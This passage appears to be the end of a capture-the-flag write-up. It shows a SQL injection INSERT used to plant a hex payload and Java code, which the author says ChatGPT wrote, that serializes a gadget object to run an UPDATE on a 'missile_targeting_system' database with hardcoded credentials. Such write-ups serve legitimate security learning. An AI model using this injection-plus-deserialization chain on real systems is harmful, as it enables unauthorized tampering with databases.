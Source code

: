 



To upload my payload, I use the SQLi vuln, insert on that table and use the HEX keyword.

Something like:
```
insert into satellite_query (name_of_table_column) values ('9fad5e9eefdfb449');
```




All finished! In summary, I was on the right track with writing my custom code. Ysoserial was a rabbit hole.

This was my final code (generated from ChatGPT actually):

Side note - the code given actually had a bug at first, it should have been sqlupdatecommand, true, true but chatgpt gave me false, true. Fixed it manually.
```java
import java.io.*;
import java.sql.DriverManager;
import java.sql.Connection;


public class payload implements Serializable {
    public static void main(String[] args) {
        // Replace these values with your actual database connection details
        String jdbcUrl = "jdbc:mariadb://localhost:3306/missile_targeting_system";
        String username = "targeter";
        String password = "cu3xmzp9tzpi00bdqvxq";


        // SQL command to update the pointing_mode table
        String sqlUpdateCommand = "UPDATE pointing_mode SET numerical_mode = 1 WHERE id = 1";


        // Create an instance of SatelliteQueryFileFolderUtility
        SatelliteQueryFileFolderUtility utility = new SatelliteQueryFileFolderUtility(sqlUpdateCommand, true, true);


        // Serialize the object
        try (ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("serializedObject.ser"))) {
            oos.writeObject(utility);
            System.out.println("Serialization complete");
        } catch (IOException e) {
            e.printStackTrace();
        }


        // The rest of your code (Connection setup and calling getResults) remains unchanged
        try (Connection connection = DriverManager.getConnection(jdbcUrl, username, password)) {
            // Call the getResults method with the Connection object
            String result = utility.getResults(connection);


            // Print the result
            System.out.println(result);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
